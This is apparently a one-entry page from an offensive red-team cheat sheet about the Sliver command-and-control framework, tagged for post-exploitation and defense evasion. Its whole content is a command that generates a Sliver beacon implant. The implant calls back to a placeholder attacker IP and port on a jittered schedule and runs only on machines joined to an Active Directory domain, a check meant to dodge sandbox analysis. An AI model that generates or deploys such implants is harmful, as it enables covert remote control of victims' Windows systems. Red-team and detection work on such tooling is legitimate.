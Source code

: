 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - anti-sandbox
  - sliver
  - windows
---
```

# Sliver

Check if the computer is joined in a active directory network.

```
sliver > generate beacon -m <IP>:<PORT> -S 5 -J 10 -x
```